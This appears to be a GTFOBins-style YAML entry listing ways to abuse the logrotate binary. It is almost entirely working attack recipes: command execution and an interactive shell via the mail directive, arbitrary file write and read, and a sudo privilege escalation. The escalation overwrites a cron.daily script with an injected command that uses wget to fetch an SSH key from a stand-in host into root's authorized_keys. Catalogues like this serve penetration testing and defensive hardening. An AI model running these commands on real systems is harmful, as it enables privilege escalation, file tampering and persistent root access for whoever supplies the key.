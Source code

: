 ```yaml
---
functions:
  command:
    - description: Requires a logrotate policy which uses the `mail` directive. A hash should be used as the final character in the command, as it is run with a few arguments.
    - code: |
        COMMAND='id &> /tmp/output #'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        logrotate -m "$TF" -v -f logrotate.policy
  shell:
    - description: Requires a logrotate policy which uses the `mail` directive.
    - code: |
        COMMAND='/usr/bin/bash -i #'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        logrotate -m "$TF" -v -f logrotate.policy
  file-write:
    - description: Creates or overwrites the file with the exact text `logrotate state -- version 2`
    - code: |
        LFILE=file_to_write
        logrotate -s "$LFILE" logrotate.policy
    - description: Creates or overwrites the file with junk data in combination with arbitrary data.
    - code: |
        LFILE=file_to_write
        DATA=data_to_write
        logrotate -l "$LFILE" "$DATA"
  file-read:
    - description: Reads the first 'word'.
    - code: |
        LFILE=file_to_read
        logrotate "$LFILE"
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. Note: this will overwrite `/etc/cron.daily/man-db` with a cronjob.
      code: sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget https://example.com/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
---
```

